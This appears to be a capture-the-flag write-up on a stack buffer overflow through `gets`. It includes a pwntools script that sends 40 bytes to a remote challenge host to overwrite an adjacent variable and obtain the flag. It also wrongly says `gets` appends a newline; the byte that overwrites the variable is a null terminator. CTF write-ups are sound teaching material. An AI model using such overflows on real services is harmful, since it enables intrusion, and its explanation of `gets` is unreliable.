

[Source code](./handout/Bug_Bounty_1)

So here is the interaction with the challenge:


We have a view of the stack, and from the source code we know that the name variable is 40 bytes 

To get the flag we need to successfully change the `number` variable. The `gets` function is vulnerable to buffer overflow. That means that if we write in the name `var` more than 40 bytes we can change the variable next to name

Let's use pwntools to do it


Here I sent 39 bytes of letter `A` and the next variable is not changed



But here with 40 bytes it changed and we get the flag. Why is that ? It's not supposed to be 41 ?
Yes it is, but the `gets` function add at the end of the `name` variable a newline character and the newline character overwrite the `number` variable (so in fact we sent 41 bytes). We can see on the picture the first bytes of number is `00`.


```python
from pwn import *

# Connect to the instance
conn = remote('chal.sigpwny.com', 1343)
# Use process() if you want to test locally
# conn = process('./challenge')

# Receive the prompt
conn.recvuntil(b'> ')

# Write your exploit here!
exploit = b'A'*40

# Send the payload
conn.sendline(exploit)

# Drop to an interactive shell to interact with the process
conn.interactive()
``` 